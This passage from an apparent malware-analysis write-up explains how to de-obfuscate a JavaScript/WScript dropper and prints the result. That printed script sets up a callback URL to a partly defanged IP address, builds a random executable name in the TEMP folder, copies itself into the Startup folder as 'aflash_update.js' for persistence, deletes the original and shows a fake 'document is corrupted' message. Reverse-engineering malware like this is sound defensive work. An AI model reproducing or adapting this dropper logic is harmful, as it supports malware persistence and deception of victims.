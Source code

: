 

### Search and Replace

The code is now fully readable, however, it's difficult to fully understand since there is still one layer of obfuscation. See below for what I mean. 

The best way to deal with this, is to manually do a search and replace in your favorite editor, notepad++ and visual code work great for this. 

This is quite a slow and somewhat painful process, but is a necessary step in de-obfuscating javascript code. 

You could try to script this, but it's a painful process. Be prepared to write some chunky regex. 
I was able to get a semi-functioning script, but ended up doing it manually due to inconsistencies in the script output. I'll include a copy of it somewhere. 

![img](image11)

### Final De-Obfuscated Script

```
obj_more = null;
obj_considered = null;
obj_packages8 = null;
obj_better = null;
obj_Accuracy = null;
obj_alike1 = null;
obj_large = null;
obj_running1 = null;
obj_capture5 = null;
obj_servers105 = null;
obj_they7 = null;
obj_size = null;
var ActXN = this[ActiveXObject];
var WSSS12 = this[WScript];
var obj_complex2 = WScript[CreateObject](WScript.Shell);
var fso12 = new ActiveXObject(Scripting.FileSystemObject);
var obj_informationsensing = new ActiveXObject(ADODB.Stream);
var obj_trends6 = new ActiveXObject(Shell.Application);
var temp12 = WScript[CreateObject](WScript.Shell)[ExpandEnvironmentStrings](TEMP);
var obj_medicine = temp12 + Mathfloor((Math[random]()  *  (100))  +  1) + .exe;

#let's assume the above resolved to "*windows/temp*/23482819.exe"

var obj_time = new ActiveXObject(Msxml2.ServerXMLHTTP);
var body12 = \aflash_update.js;
var startupFolder = ActiveXObject(Shell.Application)[NameSpace](7);
var flagme = false;
var obj_including = false;
var obj_lead9 = 1;
var filets = null;
var empty12 = '';
var obj_systems7 = WScript[ScriptFullName];
var autor = startupFolder.Self.Path + \aflash_update.js;
var attacker_url = https://217[.]28.218.217/AE5600FFCBCC/q64.php?add=gtyhbncdfewpnjm9oklmnfdrtqdczdfgrt;
if ((WScript[ScriptFullName] != autor) && (false == false))  {
    #Malware copies itself to new file named "\aflash_update.js"
    #Then removes original copy and sleeps
    false = true;
    ActiveXObject(Scripting.FileSystemObject)[CopyFile](WScript[ScriptFullName, autor);
    ActiveXObject(Scripting.FileSystemObject)[DeleteFile](WScript[ScriptFullName);
    WScript[echo](The document is corrupted and cannot be opened);
    WScript[Sleep](8000);
}
```